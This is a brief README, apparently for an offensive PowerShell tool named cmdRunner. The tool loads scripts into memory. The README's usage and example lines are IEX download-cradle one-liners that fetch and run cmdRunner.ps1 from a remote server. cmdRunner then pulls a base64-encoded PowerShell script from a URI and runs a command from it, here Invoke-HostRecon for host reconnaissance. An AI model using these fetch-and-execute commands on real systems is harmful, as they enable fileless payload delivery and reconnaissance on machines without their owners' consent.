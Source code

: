 # cmdRunner

## Usage
IEX ((New-Object Net.WebClient).DownloadString('http://your-server/path/to/cmdRunner.ps1'))
cmdRunner -Uri http://your-server/path/to/b64/encoded/powershell/script.txt -Command <Command found in script.txt>

## Example
IEX ((New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nullg0re/cmdRunner/main/cmdRunner.ps1'))
cmdRunner -Uri https://raw.githubusercontent.com/nullg0re/cmdRunner/main/HostRecon.b64.txt -Command Invoke-HostRecon
